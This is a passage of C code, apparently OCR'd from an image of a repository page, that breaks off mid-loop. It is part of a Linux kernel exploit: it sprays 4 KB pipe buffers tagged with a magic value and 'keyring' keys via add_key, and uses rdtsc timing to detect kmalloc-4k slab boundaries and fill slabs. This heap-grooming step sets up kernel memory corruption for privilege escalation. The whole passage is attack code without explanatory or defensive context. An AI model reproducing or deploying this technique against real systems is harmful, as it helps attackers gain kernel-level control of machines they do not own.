```c
  int res = pipe(fds);
  res |= (fcntl(fds[1], F_SETPIPE_SZ, pipe_size) < 0);

  char *uniguri = "UNIGURI@";
  const uint64_t pipe_magic = 0xdeadbeef00000000 + idx;
  write(fds[1], uniguri, 8);
  write(fds[1], &pipe_magic, 8);

  return !res ? 0 : -1;
}

void close_pipe_at(size_t idx) {
  for (int i = 0; i < 2; ++i) {
    if (pipe_fds[idx][i] > 2) {
      close(pipe_fds[idx][i]);
      pipe_fds[idx][i] = -1;
    }
  }
}

size_t last_idx_in_slab[HEAP_ALLOC_COUNT];
int pipe_cnt = 0;
int make_kmalloc_4k_slab_full(const int slab_cnt) {
  pipe_cnt = 0;
  int add_key_res[HEAP_ALLOC_COUNT];
  size_t times[HEAP_ALLOC_COUNT] = {
      0,
  };
  const char type[] = "keyring";
  char desc[0x1000];
  memset(desc, '.', sizeof(desc));
  desc[sizeof(desc) - 1] = 0;

  size_t last = 0;
  memset(last_idx_in_slab, 0, sizeof(last_idx_in_slab));
  size_t running = 0;
  int finded = 0;
  for (int i = 0; i < HEAP_ALLOC_COUNT; ++i) {
    sched_yield();
    int pipe_res = alloc_4k_pipe_at(i);
    const size_t t1 = rdtsc_begin();
    sys_add_key(type, desc, NULL, 0, 0);
    const size_t t2 = rdtsc_end();
    times[i] = t2 - t1;
    if (pipe_res < 0) {
      break;
    }
    ++pipe_cnt;

    if (times[i] > 8000 && (i == 0 || times[i] - times[i - 1] > 1500)) {
      if (last == 0) {
        last = i;
        last_idx_in_slab[running] = i;
        ++running;
      } else if (i - last == 8) {
        last = i;
        last_idx_in_slab[running] = i;
        ++running;
      } else {
        last = 0;
        running = 0;
      }

```